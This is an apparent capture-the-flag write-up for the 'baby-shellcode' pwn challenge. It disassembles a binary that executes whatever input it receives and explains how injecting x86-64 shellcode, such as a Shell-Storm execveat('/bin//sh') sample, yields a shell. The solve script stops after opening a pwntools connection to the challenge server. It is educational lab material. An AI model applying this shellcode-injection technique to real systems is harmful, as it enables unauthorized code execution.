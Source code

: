 ## pwn/baby-shellcode

### Challenge
```
This challenge is a test to see if you know how to write programs that machines can understand.

Oh, you know how to code?

Write some code into this program, and the program will run it for you.

What programming language, you ask? Well... I said it's the language that machines can understand.

Author: drec

nc 34.28.147.7 5000
Attachment: baby-shellcode
```
### Solution
Since ghidra doesn't provide sensible decompilation for this program, its better to have a look at its disassembly:
```console
$ objdump -M intel -d baby-shellcode
baby-shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:   48 81 ec 00 04 00 00    sub    rsp,0x400
  401007:   ba 00 04 00 00          mov    edx,0x400
  40100c:   48 89 e6                mov    rsi,rsp
  40100f:   bf 00 00 00 00          mov    edi,0x0
  401014:   b8 00 00 00 00          mov    eax,0x0
  401019:   0f 05                   syscall
  40101b:   ff e4                   jmp    rsp
```
If you know basic assembly, this is a standard subroutine to take `0x400` bytes input from `stdin` and store it in `$rsp-0x400`:
```
sub    rsp,0x400
mov    edx,0x400
mov    rsi,rsp
mov    edi,0x0
mov    eax,0x0
syscall
```
and `jmp rsp` will attempt to execute the input. By injecting the necessary machine codes when prompted for input, we can leverage the program to open a shell. We can handcraft the shellcode manually or some use common ones from [Shell-Storm](https://shell-storm.org/shellcode/index.html). Since this is a `x86_64` Linux executable, we need to use a shellcode of the same architecture
```console
$ file baby-shellcode
baby-shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
I used [Linux/x86-64 - execveat("/bin//sh")](https://shell-storm.org/shellcode/files/shellcode-905.html) - 29 bytes by ZadYree, vaelio and DaShrooms ( thanks )
So here is the final solve script:
```py
import pwn

p = pwn.remote('34.28.147.7', 5000)
```
